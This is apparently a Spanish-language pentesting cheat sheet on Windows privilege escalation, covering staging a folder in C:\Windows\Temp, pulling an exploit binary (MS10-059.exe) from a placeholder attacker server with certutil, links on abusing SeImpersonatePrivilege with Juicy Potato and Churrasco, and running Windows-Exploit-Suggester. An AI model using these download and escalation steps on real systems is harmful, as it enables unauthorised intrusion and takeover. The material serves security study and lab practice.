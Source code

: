 * Ve al directorio **/Temp** de la máquina Windows y crea una carpeta que se llame **/privesc**:
```batch
c:\>cd Windows/Temp
cd Windows/Temp
c:\Windows\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8
 Directory of c:\Windows\Temp
c:\Windows\Temp>mkdir Privesc
mkdir Privesc
c:\Windows\Temp>cd Privesc
cd Privesc
```

* Ahora dentro de **/Privesc** vamos a cargar el archivo que deseas con **Certutil**:
```batch
c:\Windows\Temp\Privesc>certutil.exe -urlcache -split -f http://Tu_IP:8000/Archivo_que_quieres_cargar Nuevo_Nombre
```

Ejemplo:
```batch
c:\Windows\Temp\Privesc>certutil.exe -urlcache -split -f http://IP_Mia_xd:8000/MS10-059.exe MS10-059.exe
```

<h2 id="Privilegio">Abusar del Privilegio SeImpersonatePrivilege Windows</h2>

Si bien, hay Exploits para casi todo, podemos usar una herramienta para cuando te topes con este privilegio en una máquina Windows.

Usaremos **Juicy Potato**, aquí un link de como usarlo:
* <a href="https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe" target="_blank">Privilege Escalation (Windows) – JuicyPotato.exe</a>

Si necesitas **Juicy Potato** para versiones viejas de Windows, aquí te pongo esta versión del **Juicy** llamada **Churrasco**:
* <a href="https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/" target="_blank">Privilege Escalation (Windows) – churrasco.exe</a>

<h2 id="Suggester">Herramienta Windows Suggester</h2>

Esta herramienta nos sirve para ver a que Exploits es vulnerable la máquina Windows, para esto, necesitamos saber unas cosillas:
* Primero necesitamos descargarla: <a href="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" target="_blank">Reposiorio de AonCyberLabs: Windows-Exploit-Suggester</a>

* Una vez descargada, seguimos las instrucciones del GitHub para generar una base de datos en archivo **.xls**:
```bash
python2 windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2023-03-30-mssb.xls
[*] done
```
